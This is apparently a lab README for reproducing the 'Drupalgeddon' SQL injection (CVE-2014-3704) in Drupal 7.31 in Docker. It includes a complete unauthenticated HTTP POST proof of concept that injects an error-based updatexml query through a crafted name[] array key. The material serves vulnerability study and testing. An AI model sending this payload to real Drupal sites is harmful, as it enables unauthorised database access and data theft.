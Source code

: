 # Drupal < 7.32 "Drupalgeddon" SQL Injection (CVE-2014-3704)

[中文版本(Chinese version)](README.zh-cn.md)

Drupal is a free and open-source web content management framework written in PHP and distributed under the GNU General Public License.

The expandArguments function in the database abstraction API in Drupal core 7.x before 7.32 does not properly construct prepared statements, which allows remote attackers to conduct SQL injection attacks via an array containing crafted keys.

References:

- <https://www.drupal.org/SA-CORE-2014-005>
- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3704>

## Vulnerable Environment

Execute the following command to start a Drupal 7.31.

```
docker compose up -d
```

After the server is started, browse ``http://your-ip:8080`` to see the Drupal installation wizard, and use the default configuration to install it.

Note that the Mysql database name is ``drupal``, the database username and password is ``root``, and the address is ``mysql``:

![](1.png)

After the installation is complete, browse the home page.

![](2.png)

## POC

The SQL injection does not require authentication and can execute malicious SQL statements by sending the following request.

```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

As can be seen, the SQL statement reports an error message with user data.

![](3.png)
